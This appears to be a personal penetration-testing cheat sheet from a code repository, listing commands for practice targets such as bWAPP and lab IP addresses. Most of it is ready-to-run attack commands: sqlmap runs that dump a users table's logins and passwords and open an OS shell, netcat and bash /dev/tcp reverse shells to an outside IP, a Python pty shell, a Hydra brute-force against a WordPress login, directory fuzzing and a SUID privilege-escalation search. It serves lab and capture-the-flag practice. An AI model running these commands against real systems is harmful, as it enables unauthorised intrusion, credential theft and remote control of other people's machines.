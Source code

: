 # Infosec
My InfoSec Cheat sheet and stuff



# scan local network

arp-scan --local

# sqlmap 

------


POST data (if data not in URL)
sqlmap --url="http://bee-box/bWAPP/slqi_1.php?title=iron" --dbs
--dbs info is found using the -hh option of sqlmap
Add --cookie="security_level=0;PHPSESSID=xxxxxx"
the bwapp app requires it
If POST then add --data="title=iron&action=search"
Input data and parameters are usually found in the request BODY
So we have a good injection point and even enumerated the name of the database,
but how do we get at the data?
Enumerate the Table names
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP --tables
Enumerate Columns
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP -T users --
columns
Dump database data from table 'users' from columns 'login' and 'password'
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP -T users -C
login,password --dump
Any other useful tricks?
How about COMMAND EXECUTION?
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP --os-shell


----------

# nc shell

----------

nc -nvlp 9999 (attacker)

nc -nv -e /bin/bash IP PORT  OR  bash -c "bash -i >& /dev/tcp/10.10.15.94/443 0>&1"


---
# photos and metadata

exif 

exiftool 

steghide info

binwalk - tool for searching binary images for embedded files and executable code



---
# SPAWN PY SHELL

import pty
pty.spawn("/bin/sh")


-
# start quick python http server 
python3 -m http.server 80080

# fuff coz i hate gobuster 
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.142.184/FUZZ -fs 42 -c -v 

# hydra brute force WP

hydra -l kwheel -P /usr/share/wordlists/rockyou.txt 10.10.36.107 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V

# Find files SUID - find files with s premission 

find / -type f -perm -04000 -ls 2>/dev/null

